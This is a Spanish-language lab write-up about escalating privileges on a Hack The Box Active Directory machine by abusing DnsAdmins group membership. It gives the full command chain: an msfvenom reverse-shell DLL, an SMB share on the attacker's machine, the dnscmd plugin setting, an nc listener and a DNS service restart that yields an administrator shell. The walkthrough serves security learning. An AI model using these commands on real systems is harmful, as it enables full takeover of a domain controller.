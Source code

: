 ```yaml
---
title: Active Directory - Abusando del Grupo DNSAdmins
description: El grupo DNSAdmins permite inyectar una DLL maliciosa que se ejecutará automáticamente al iniciar el servicio.
date: 2024-12-12
categories: [active-directory, dnsadmins]
tags: [grupos-de-usuarios-especiales, escalada-de-privilegios, casos-de-ataques-ad, dnscmd, dll, msfvenom, smbserver]
img_path: /assets/img/abusing-dnsadmins-injecting-dll.png
image: /assets/img/abusing-dnsadmins-injecting-dll.png
---
```


## **Introducción**

Ya hemos publicado varios artículos sobre Active Directory, pero aún quedan muchos más que se irán subiendo próximamente.

Los miembros del grupo *DnsAdmins* tienen acceso a la información *DNS* de la red. El servicio DNS de Windows admite complementos personalizados y puede llamar a funciones de estos para resolver consultas de nombres que no estén dentro del alcance de las zonas DNS locales. El servicio DNS se ejecuta como **`NT AUTHORITY\SYSTEM`**, por lo que la membresía en este grupo podría potencialmente aprovecharse para **escalar privilegios en un Controlador de Dominio** o en una situación donde un servidor separado actúe como servidor DNS del dominio. Es posible usar la utilidad integrada `dnscmd` para especificar la ruta del complemento DLL.

Para poder realizar este escenario, hemos usado la máquina [Resolute](https://app.hackthebox.com/machines/Resolute) de [Hack The Box](https://app.hackthebox.com/), cuya dirección IP es la *10.10.10.169* y el dominio correspondiente es *megabank.local*.

###  **Gráfico del escenario**

Para que podamos visualizarlo de una manera más sencilla, vamos a mostrar un gráfico representativo del escenario que vamos a realizar.

![abusando del grupo dnsadmins grafico representativo.png](/assets/img/abusando-del-grupo-dnsadmins-grafico-representativo.png)

### **Contexto**

Partiremos de la base en la que nos encontramos como el usuario *Ryan*. Este usuario, forma parte del grupo *Contractors* y este grupo a su vez, forma parte de *DnsAdmins*. Entonces, de forma indirecta, estamos dentro del grupo *DnsAdmins* y podemos realizar esta explotación.

## **Manos a la obra**
### **Identificando el grupo DnsAdmins**

Si miramos el grupo al que pertenecemos, observamos que estamos en el grupo *Contractors*.

```powershell
net user ryan
```

![net user ryan grupo contractors.png](/assets/img/net-user-ryan-grupo-contractors.png)

Sin embargo, al ejecutar el comando `whoami /all` aparece que formamos parte del grupo *DnsAdmins*.

```powershell
whoami /groups
```

![whoami groups vemos dnsadmins.png](/assets/img/whoami-groups-vemos-dnsadmins.png)

Esto se debe a que, el grupo *Contractors*, a su vez es miembro del grupo *DnsAdmins*. Esto lo podemos ver con `net localgroup DnsAdmins`.

```powershell
net localgroup DnsAdmins
```

![net localgroup dnsadmins vemos contractors.png](/assets/img/net-localgroup-dnsadmins-vemos-contractors.png)

Para verlo de una manera un poco más visual, podemos hacer uso de BloodHound. Este, nos muestra el "camino" que sigue nuestro usuario hasta llegar al grupo *DnsAdmin*.

![camino de ryan hasta llegar a dnsadmins.png](/assets/img/camino-de-ryan-hasta-llegar-a-dnsadmins.png)

Ser miembro de este grupo, supone una brecha de seguridad bastante grave sobre el *Domain Controler* ya que, tenemos el poder de inyectar una *DLL* maliciosa que se ejecutará al iniciar el servicio *DNS*. Como estamos dentro del grupo *DnsAdmins* tenemos los permisos necesarios como para parar y arrancar el servicio. A la hora del arranque, esta *DLL* que hemos configurado que se ejecute al inicio del mismo, se ejecutará y podremos realizar cualquier tipo de acción maliciosa como el usuario *Administrator*.

### **Abusando del grupo DnsAdmins**

Vamos a verlo de una manera más práctica. Primero, nos crearemos nuestra *DLL* maliciosa con `msfvenom` que se encargue de enviarnos una *Reverse Shell* a nuestra máquina por un puerto especificado. Los parámetros *LHOST* y *LPORT* pueden variar según el caso en el que nos encontremos y nuestras preferencias.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=NUESTRA-IP LPORT=PUERTO -f dll -o malicious.dll
```

![generando dll maliciosa.png](/assets/img/generando-dll-maliciosa.png)

A continuación, desde la máquina víctima estableceremos un nuevo archivo de configuración de una *DLL*. Esta *DLL* se cargará a través de un recurso compartido a nivel de red que, estaremos alojando en nuestra máquina de atacantes en el cual, estará esta *DLL* que hemos generado con `msfvenom`. Cuando la *DLL* se cargue, se ejecutará y nos enviará la consola a nuestra máquina de atacantes.

Como ya hemos comentado en el párrafo anterior, la *DLL* se cargará de un recurso compartido a nivel de red que estaremos alojando en nuestra máquina. Entonces, nos montaremos ese recurso compartido con `smbserver`.

```bash
smbserver.py smbFolder $(pwd) -smb2support
```

![recurso compartido con la dll.png](/assets/img/recurso-compartido-con-la-dll.png)

> Es **importante** tener en cuenta que si ejecutamos el comando anterior, el recurso compartido tendrá el nombre de *smbFolder* el cual, **se alojará en el directorio actual de trabajo**. Es en este directorio, en el que deberá de estar la *DLL* en cuestión.
{: .prompt-warning}

Para establecer el fichero de configuración *DLL*, usaremos [`dnscmd.exe`](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/) de la siguiente manera.

```powershell
dnscmd.exe /config /serverlevelplugindll \\NUESTRA-IP\smbFolder\malicious.dll
```

En este punto, la *DLL* se cargará directamente desde el recurso compartido con nombre *smbFolder* que estará montado en nuestra máquina de atacantes y cuyo nombre de la *DLL* será `malicious.dll`.

### **Ganando acceso como Administrator**

Ahora, nos pondremos en escucha con `nc` por el puerto que le hemos indicado anteriormente a `msfvenom`. En este caso, el puerto en cuestión es el *443*.

```bash
rlwrap nc -nlvp PUERTO
```

![en escucha por el puerto 443 con rlwrap nc.png](/assets/img/en-escucha-por-el-puerto-443-con-rlwrap-nc.png)

Lo último que nos queda es *parar y arrancar el servicio DNS*. 

```powershell
sc.exe stop dns
sc.exe start dns
```

> Puede que el servicio lo tengamos que parar y arrancar **varias veces para que funcione** e incluso, tener que inyectar de nuevo la *DLL*.
{: .prompt-info}

Una vez arrancado el servicio, habremos obtenido una consola como el usuario administrador del dominio y acceso total al *DC*.

![obteniendo consola como administrador gracias a la dll maliciosa.png](/assets/img/obteniendo-consola-como-administrador-gracias-a-la-dll-maliciosa.png)

De esta manera, habremos comprometido el dominio habiéndonos convertido en el usuario con mayor privilegios.

## **Despedida**
Muchas gracias por dar una oportunidad a este artículo y espero que hayas adquirido un nuevo superpoder. Grupos de los que se pueden abusar a nivel de *Active Directory* son muchos, y es por ello que hay que tenerlos todos en cuenta.
